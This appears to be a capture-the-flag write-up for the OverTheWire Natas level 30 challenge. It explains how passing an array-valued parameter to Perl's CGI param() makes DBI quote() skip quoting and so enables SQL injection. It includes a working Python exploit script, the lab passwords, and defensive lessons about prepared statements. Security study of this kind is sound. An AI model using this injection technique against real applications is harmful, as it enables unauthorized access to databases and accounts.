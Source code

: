 ```yaml
---
category: natas
title: Natas30 - SQL Injection in Perl CGI
---
```


website: http://natas30.natas.labs.overthewire.org/ (password: wie9iexae0Daihohv8vuu3cei9wahf0e)

This challenge is all about SQL injection and improper use of Perl CGI functions.
In the challenge, a user's inputs are handled by `$dbh->quote(param(...))`. 
See the source code below:

```perl
my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password')); 

my $sth = $dbh->prepare($query);
$sth->execute();
```

On the one hand, the `param()` function in CGI.pm is context sensitive: 
If a parameter is a single value (e.g., an integer or a string), `param()` returns that value.
If the parameter is an array, then the function will return an array reference.
That means, `$dbh->quote()` may receive an array from the `param()` if we pass in an array as a parameter.

On the other hand, according to 
<a href="https://metacpan.org/pod/release/TIMB/DBI-1.637/DBI.pm#quote">this document</a>, 
`quote()` can take a second parameter `$data_type`:
	"If `$data_type` is supplied, it is used to try to determine the required quoting behaviour by using the information returned by 
		<a href="https://metacpan.org/pod/release/TIMB/DBI-1.637/DBI.pm#type_info">type_info</a>. 
		As a special case, the standard numeric types are optimized to return `$value` without calling `type_info`".
What does this mean? In my own words, 
it means that the `quote()` function <em>cannot</em> garantee a parameter is always quoted.
It all depends on the second parameter `$data_type`, if it exists.
If that parameter exists and specifies a NUMERIC type, then the value (i.e., the first parameter) won't be quoted.
In this case, it makes SQL injection possible.

With the above information in mind, we can draft a payload below to make the CGI malfunction:

```python
#!/usr/bin/env python3
import requests
 
payload = {"username": "natas31", "password": ["'a' or 1", 2]}
 
url = 'http://natas30.natas.labs.overthewire.org/index.pl'
auth = ('natas30', 'wie9iexae0Daihohv8vuu3cei9wahf0e')
resp = requests.post(url, auth=auth, data=payload)
print(resp.text)
```

As shown above, in the payload, I have assigned an array to the `password`.
Moreover, the second value of `password` is 2, 
which makes the Perl `quote()` consider it's taking a NUMERIC value.
As such, the first value (i.e., the string <small>\'a\' or 1</small>) will not be quoted any more.
This makes the final query string look like:

```plain
SELECT * FROM users WHERE username = 'natas31' AND password = 'a' OR 1
```

Running the above script returns natas31's password:
<small>hay7aecuungiuKaezuathuk9biin0pu1</small>.

<strong>LESSONS LEARNED</strong>

1. Although `quote()` is safe when used properly, 
prepared statements are better, safer, and harder to use wrong. 
Use prepared statements in DBI whenever possible to avoid SQL injection.
2. Don't use CGI's `param()` in argument lists, hash constructors, 
or any other place where it could return an unexpected number of items.
Either put scalar out front, assign to a scalar, or assign to an array. 
Or, better yet, avoid CGI.pm and workalike interfaces entirely.
